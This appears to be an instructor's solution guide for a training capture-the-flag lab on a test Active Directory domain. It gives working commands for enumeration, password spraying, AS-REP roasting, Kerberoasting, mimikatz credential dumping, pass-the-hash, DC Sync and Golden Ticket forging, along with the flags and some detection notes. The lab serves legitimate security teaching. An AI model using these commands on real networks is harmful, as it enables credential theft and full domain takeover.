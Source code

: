 # Preparation

1. Install a Kali VM
2. Make sure that you are able to connect your notebook to a physical ethernet
   network while being connected to `eduroam`, `welcome`, or your own Hotspot /
   Tethering for internet. If this is not possible you might be able to connect
   via WiFi to the lab network. A wired connection would be preferred.
3. Make sure you know the basics of TCP and DNS
4. Get familiar with simple `nmap` commands

<!--
2. Install and setup bloodhound (`https://www.kali.org/tools/bloodhound/`)
3. Install `bloodhound.py` (`pip install bloodhound`)
2. Install docker (https://docs.docker.com/engine/install/debian/)
3. Run `sudo usermod -aG docker $USER` and restart the VM (https://docs.docker.com/engine/install/linux-postinstall/#manage-docker-as-a-non-root-user)
4. Install Bloodhound **Community Edition** `curl -L https://ghst.ly/getbhce | docker compose -f - up` (https://github.com/SpecterOps/BloodHound?tab=readme-ov-file#running-bloodhound-community-edition)
-->

## TODO: pre LAB preparation

TODO: disable RDP on srv
    TODO: lena.obstfeld needs to be able to SSH into srv but not as admin
    TODO: felix.frucht needs to be admin and SSHable into srv
    TODO: anna.bluetenbach needs to be admin and RDPable into DC
TODO: golden ticket flag?

1. Make sure DNS only listens on 192.168.8.50
2. Allow admin RDP sessions to DC
    > this should be possible. if not run:
    > `New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0`
3. Get krbtgt NT hash and set as flag
3. Install Sysmon (`sysmon -i`)
4. Configure Sysmon (`sysmon -c sysmonconfig.xml`)
5. Import custom event viewer views
6. Open admin RDP session to srv

7. Make sure RDP and SSH work concurrently

## Sanity Check

Read "Introduction"!

> `flag{50_1337_h4x0r}`

## DC IP

1. Connect to Lab Network
2. Start Kali VM
3. Login with `kali:kali`
4. Open Terminal
5. Run `ip a` to get own ip address
6. Run `nmap -sP 192.168.8.0/24`
7. See `192.168.8.50`
8. Confirm suspicion by SYN scanning `192.168.8.50` (`sudo nmap -sS 192.168.8.50`)

> `flag{192.168.8.50}`

## Domain Recon

1. Open Terminal
2. Run `crackmapexec smb 192.168.8.50 --users`
3. Alternative: Run `enum4linux -U 192.168.8.50`
4. See flag and submit

> `flag{M4st3r_0f_AD_D0m41n_R3c0nn41ss4nc3}`

## Password Spraying

1. Write all usernames to a `users.txt` file
2. Run `crackmapexec smb 192.168.8.50 -u users.txt -p users.txt --no-bruteforce`
3. Run `crackmapexec smb 192.168.8.50 -u users.txt -p 'Sommer2024!'`

> `flag{karl.apfelmann:karl.apfelmann}`
> `flag{karl.apfelmann:Sommer2024!}`

> Mention Lockout Policy

> Lockout for 5 minutes after 300 failed attempts

> **New User:** `karl.apfelmann`

## ASREPRoast

1. Run `impacket-GetNPUsers aafabrik.lab/ -no-pass -usersfile users.txt -dc-ip 192.168.8.50`
2. Copy hashes into `hashes.asreproast`
3. Use JtR
    * `john --wordlist=/usr/share/wordlists/rockyou.txt --format:krb5asrep hashes.asreproast`
    * `john --show hashes.asreproast`

> `flag{cyber4pple}`

> **New User:** `lena.obstfeld`

> * Event 4768 in "Windows Logs > Security"
> * Check Wireshark for `kerberos` traffic

## Kerberoast

### Blind Kerberoast

> Creds required

1. Run `impacket-GetUserSPNs -request -dc-ip 192.168.8.50 aafabrik.lab/karl.apfelmann:Sommer2024!`
2. Copy hash into a `hashes.kerberoast`
3. Run `john --format=krb5tgs --wordlist=passwords_kerb.txt hashes.kerberoast`
4. Show password `john --show hashes.kerberoast`

> `flag{iloveorangejuice}`

> **New User:** `sophie.weingarten`

> **Detection:**
> * Detect with event `4769` for honey pot accounts
> * Event 4768 in "Windows Logs > Security"
> * Check Wireshark for `kerberos` traffic

## SYSVOL

1. Connect via SSH to srv.aafabrik.lab with gained creds
   (`ssh lena.obstfeld@192.168.58.51`)
2. Navigate to `cd \\aafabrik.lab\SYSVOL\aafabrik.lab`
3. Find Logonscript with Admin Creds (and flag)

-> `flag{L0g0n_AD_Pr1nt3r_M4g1c}`

> **New User:** `felix.frucht` (member of `srvadmins`)

> Detection is hard

## Mimikatz

1. Use creds from *SYSVOL* (felix.frucht) to login via SSH to `srv.aafabrik.lab`
2. Navigate to `C:\` and find `mimikatz.exe`
3. Use `mimikatz.exe` (or `Invoke-Mimikatz`) to gain DC admin NTLM hash
4. `.\mimikatz.exe`
5. `privilege::debug`
6. `sekurlsa::logonpasswords`
7. crack password of `anna.bluetenbach` with john:
8. Place password-hash in file and execute `john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt file.txt`

> `flag{4248897b0c1ee035432fa86a2a7bc36c}`

> **New User:** `anna.bluetenbach` via NTLM hash (member of `dcadmins` and `srvadmins`)

> 1. Install and configure sysmon
> 2. Look for event 10 in Sysmon events (on srv)

## PtH (Lateral Movement)

1. Use `xfreerdp` with `--pth` option to login at `dc.aafabrik.lab` with the
   NTLM hash from *Mimikatz*
   (`xfreerdp /u:anna.bluetenbach /pth:4248897b0c1ee035432fa86a2a7bc36c /d:aafabrik.lab /v:192.168.58.50 /cert-ignore`)
2. DO NOT BREAK STUFF
3. Find flag in `flag.txt` on the Desktop or `C:\`

> `flag{H@shSm@sh_RDP_M@g1c!}`

## DC Sync (Persistence)

1. Use ssh to connect to srv.aafabrik.lab with user-account `anna.bluetenbach`, password must be cracked
2. Copy mimikatz to server via `scp`
3. Use mimikatz to perform DC Sync attack to get the `krbtgt` hash
    1. `lsadump::dcsync /domain:aafabrik.lab /user:krbtgt`

-> Flag is `flag{<krbtgt hash>}` (TODO: set flag after install)
-> Also write down Object Security ID of krbtgt-account

> Can be detected **if *Directory Service Access auditing* is enabled** via the
> event 4662.

## Golden Ticket (Persistence)

1. Use mimikatz ~~or Rubeus~~ to get a Golden Ticket
2. check with klist for presence of the ticket

> `kerberos::golden /user:anna.bluetenbach /domain:aafabrik.lab /sid:<domain_sid> /krbtgt:<krbtgt_hash> /ptt`
> `kerberos::golden /user:anna.bluetenbach /domain:aafabrik.lab /sid:S-1-5-21-1041006367-1593407638-1259114436 /krbtgt:86a6326c38e2da2ce3a781864a4135c2 /ptt`

## Use Golden Ticket (Persistence) (not implemented yet?!)

1. Use Golden Ticket to connect to a share and find flag in txt file

> TODO(jso): take this as inspiration: https://adsecurity.org/?p=2362#more-2362

> Connect via ~~RDP~~ SSH to server w/ low priv account
> find powershell script in SYSVOL with admin creds
> close ~~RDP~~ SSH session
> open new ~~RDP~~ SSH session as admin
> run mimikatz to gain DC admin NTLM hash
> use RDP to connect to DC via PtH (this might be dangerous bc then everyone can mess with the entire domain)
> use mimikatz to perform DC sync attack to gain krbtgt hash
> use mimikatz or Rubeus to get golden ticket
> then access a share and find a flag
> This can be split into multiple challs

